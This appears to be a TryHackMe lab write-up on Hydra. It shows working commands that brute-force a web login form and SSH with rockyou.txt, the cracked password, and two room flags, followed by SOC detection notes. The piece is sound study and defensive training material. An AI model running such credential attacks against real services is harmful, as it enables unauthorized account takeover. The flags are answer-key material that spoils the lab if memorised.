


> **Key Finding:** Hydra can brute force both web login forms and SSH in minutes — weak passwords offer zero protection against automated credential attacks.

## Overview
This room introduces Hydra, a fast and flexible online password cracking tool. Using a live target machine, I brute forced both a web login form (POST method) and an SSH service using a wordlist — successfully retrieving credentials and flags for both attack vectors.


---

## What I Actually Found

| Topic | Finding |
|---|---|
| What is Hydra | A fast network login cracker supporting many protocols including SSH, FTP, HTTP |
| Attack types covered | HTTP POST form brute force, SSH brute force |
| Target user | `molly` — used for both web and SSH attacks |
| Web password cracked | `sunshine` — found via HTTP POST form brute force using rockyou.txt |
| SSH password cracked | Found via SSH brute force using rockyou.txt |
| Speed observation | Password found within the first ~40 attempts — near the top of rockyou.txt |
| Dual-use nature | Hydra is both an offensive tool and a way to test your own system's resilience |

---

## Hands-On Activities

### Connecting to the Machine
Deployed the TryHackMe AttackBox and started the target lab machine. Confirmed both the AttackBox IP and target machine IP from the Active Machines panel before running any commands.

### Brute Forcing the Web Login (Flag 1)





*Target web login page — the form we are brute forcing with Hydra*

Used Hydra to brute force molly's web password via HTTP POST form:

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.x.x http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```


*Hydra running the HTTP POST form brute force attack against the target*


*Hydra successfully cracked molly's web password as `sunshine`*

Logged into the web application via Firefox using the cracked credentials and retrieved Flag 1.


*Successfully logged in as molly — Flag 1 retrieved*

> Flag 1: `THM{2673a7dd116de60e85c48ec0b1f2612e}`

### Brute Forcing SSH (Flag 2)
Used Hydra to brute force molly's SSH password:

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.x.x -t 4 ssh
```





*Hydra cracking molly's SSH password successfully*

Once cracked, SSH'd into the target machine:

```bash
ssh molly@10.10.x.x
```

Listed files and read the flag:

```bash
ls
cat flag2.txt
```

> Flag 2: `THM{c8ee00468febbadea859baeb33b2541b}`

---

## SOC Analyst Relevance

| Skill Practiced | SOC Application |
|---|---|
| Brute force attack awareness | Recognising brute force patterns in authentication logs (multiple failed logins) |
| HTTP POST form analysis | Understanding how login forms can be targeted and how to detect it |
| SSH attack detection | Identifying SSH brute force attempts via log monitoring and SIEM alerts |
| Wordlist-based attacks | Understanding why common passwords appear in breach datasets like rockyou.txt |
| Credential-based intrusion | Knowing attacker methodology helps SOC analysts triage alerts faster |
| Tool familiarity | Hydra is standard in both red team and security assessment toolkits |

---

## Key Takeaways

- Hydra automates credential attacks against live services — speed depends on wordlist and thread count
- HTTP POST form attacks require the login path, field names, and a failure string to work correctly
- SSH brute force is limited by threads (`-t 4`) to avoid triggering lockouts or connection drops
- Molly's password appeared within the first 40 attempts in rockyou.txt — weak passwords fall instantly
- Hydra is a dual-use tool — defenders use it to test their own systems before attackers do
- Any service exposed to the internet without rate limiting or lockout policies is vulnerable to this attack
- As a SOC analyst, repeated failed login attempts followed by a success is a critical alert pattern

---

*Part of my [TryHackMe Writeups](https://github.com/andyydz/TryHackMe-Writeups) portfolio — documenting my SOC analyst journey.*
